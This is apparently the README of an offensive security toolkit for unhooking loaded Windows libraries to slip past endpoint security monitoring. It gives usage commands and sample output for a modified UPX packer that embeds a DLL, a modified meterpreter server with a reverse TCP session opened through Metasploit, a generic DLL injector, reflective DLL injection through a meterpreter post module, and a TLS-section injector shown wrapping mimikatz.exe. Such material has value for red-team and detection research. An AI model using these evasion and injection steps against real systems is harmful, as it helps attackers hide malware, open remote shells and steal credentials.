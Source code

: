 # ReflectiveDLLRefresher

# Usage

## DLLRefresher
`DLLRefresher.exe` is a standalone test harness for scanning the process's memory space and unhooking the currently loaded libraries.

## UPX
The packaged UPX binaries have been modified to support an additional parameter (`-X <path/to/target.dll>`) to embed into the packed binary.  The final UPX packed binary will unpack the target executable in memory and call the embedded DLL before jumping into the executable's original entry point.

The modified UPX source can be found @ https://github.com/CylanceVulnResearch/upx/tree/reflective_dll

Usage:
```
upx -o <output filename> -X <path/to/embed.dll> <target executable>
```

Example:
```
upx -o packed_binary.exe -X ReflectiveDLL.x86.dll target_binary.exe
```

## Meterpreter
The `metsrv.dll` (and associated plugins in the `meterpreter` folder) is a modified meterpreter server which will unhook the currently loaded libraries before running meterpreter initalization.

Usage:

Copy all DLLs from the `meterpreter` folder into `metasploit-framework/data/meterpreter/` and get meterpreter execution on target as normal.

Example:
```
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > run
[*] Started reverse TCP handler on 10.10.10.171:4444
[*] Starting the payload handler...
WARNING: Local file /usr/share/metasploit-framework/data/meterpreter/metsrv.x64.dll is being used
[*] Sending stage (1195055 bytes) to 10.10.10.186
[*] Meterpreter session 1 opened (10.10.10.171:4444 -> 10.10.10.186:58657) at 2016-10-03 10:07:39 -0400
WARNING: Local file /usr/share/metasploit-framework/data/meterpreter/ext_server_stdapi.x64.dll is being used
meterpreter > WARNING: Local file /usr/share/metasploit-framework/data/meterpreter/ext_server_priv.x64.dll is being used
```

## Inject
`Inject.exe` is a helper utilty to inject a given DLL into any process.

Usage:
```
Inject.exe <pid> <filename>
```

Example:
```
Inject.exe 2964 ReflectiveDLLRefresher.x86.dll
[+] Injected the 'ReflectiveDLLRefresher.x86.dll' DLL into process 2964.
```

## DLL
The DLL can be injected through a meterpreter session using the `post/windows/manage/reflective_dll_inject` module.

Usage:
```
msf > use post/windows/manage/reflective_dll_inject
msf post(reflective_dll_inject) > set PATH /path/to/ReflectiveDLLRefresher.x86.dll
msf post(reflective_dll_inject) > set SESSION <session-id>
msf post(reflective_dll_inject) > set PID <pid of meterpreter session>
msf post(reflective_dll_inject) > run
```

Example:
```
msf > use post/windows/manage/reflective_dll_inject
msf post(reflective_dll_inject) > set PATH /path/to/ReflectiveDLLRefresher.x86.dll
msf post(reflective_dll_inject) > set SESSION 1
msf post(reflective_dll_inject) > set PID 4068
msf post(reflective_dll_inject) > run

[*] Running module against WIN10DEV
[*] Injecting /root/ReflectiveDLLRefresher.x86.dll into 4068 ...
[*] DLL injected. Executing ReflectiveLoader ...
[+] DLL injected and invoked.
[*] Post module execution completed
```

## TLS Injector
`tlsInjector.py` is a modified veresion of Borja Merino's script to support reflective DLL injection.  It will take a reflective DLL and inject it into the TLS section of a 32-bit executable (64-bit is not supported).

Usage:
```
python tlsInjector.py -l <path/to/embed.dll> -f <target executable> -o <output filename> -t
```

Example:
```
python tlsInjector.py -l ReflectiveDLLRefresher.x86.dll -f mimikatz.exe -o mimikatz_tls.exe -t
```
